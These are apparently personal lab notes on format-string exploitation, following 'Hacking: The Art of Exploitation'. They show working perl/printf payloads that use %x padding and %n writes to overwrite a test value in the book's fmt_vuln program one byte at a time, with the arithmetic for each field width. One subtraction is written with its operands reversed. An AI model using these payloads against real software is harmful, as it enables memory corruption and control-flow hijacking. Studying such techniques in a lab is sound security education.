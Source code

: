 

There is a simple trick that makes sense that we can use to overwrite full memory addresses. We can see that we can usually overwrite the least significant bit the best, so what if we just have to do that?

By not aligning the memory to boundaries, and writing byte by byte we can easily overwrite one byte at a time. It’s easier to show:

![[Drawing 2023-07-08 12.01.02.excalidraw|700]]

# Calculating the first byte

First, let’s figure out what int it already writes to memory by doing:

```bash
./fmt_vuln `perl -e 'print "\x20\x90\x55\x56" . "%x%x%8x" . "%n"'`
```

We get: (address may not match up, ignore that.)

```bash
[*] test_val @ 0x08049794 = 28 0x0000001c
```

We can calculate how many characters we need by doing:

$$ NEEDED\_CHARACTERS - RESULT + FORMATSTRING\_CHARS$$
So

$$170 - 28 + 8 = 150$$
Meaning we need to add 150 characters to our format string.

```bash
./fmt_vuln `perl -e 'print "\x20\x90\x55\x56" . "%x%x%150x" . "%n"'`
```

Output:

```bash
[*] test_val @ 0x08049794 = 170 0x000000aa
```

# Overwriting more

Now let’s try overwriting more. We need to put the input text in this format:

__ADDRESS__JUNK__ADDRESS__JUNK … format strings

So let’s do this:
```bash
./fmt_vuln `printf "\x20\x90\x55\x56JUNK\x20\x90\x55\x57JUNK\x20\x90\x55\x58JUNK\x20\x90\x55\x59"`%x%x%8x%n
```

This will output something like:

```
[*] test_val @ 0x08049794 = 52 0x00000034
```

Let’s use our calculations again:

$$170-52+8=126$$

Let’s see what the output is with this value:

```bash
[*] test_val @ 0x08049794 = 170 0x000000aa
```

Ok so now we got this far, time to overwrite our new string.

I’m going to directly quote from _“Hacking the art of exploitation 2nd edition”_ on why the value changed from the first time:

```ad-quote
The addresses and junk data at the beginning of the format string changed the value of the necessary field width option for the `%x` format parameter. However, this is easily recalculated using the same method as before. Another way this could have been done is to subtract 24 from the previous field width value of 150, since 6 new 4-byte words have been added to the front of the format string.
```

Let’s first calculate what we have to set the width to. Keep in mind that we set up our memory to be aligned well with our first bytes, so now we just have to think according to that, meaning we just do:
`0xaa - 0xbb = 17` 

```ad-note
For easy calculations we can use gdb:
`gdb -q --batch -ex "p 0xbb - 0xcc"`
```

Our final payload:

```bash
./fmt_vuln `printf "\x20\x90\x55\x56JUNK\x20\x90\x55\x57JUNK\x20\x90\x55\x58JUNK\x20\x90\x55\x59"`%x%x%126x%n%17x%n%17x%n%17x%n
```

We don’t have to calculate anymore here, since we are always increasing with `17`. The output of this is: 

```bash
[*] test_val @ 0x08049794 = -573785174 0xddccbbaa
```

Eyy, we managed to overwrite a whole address, I’m proud 😄

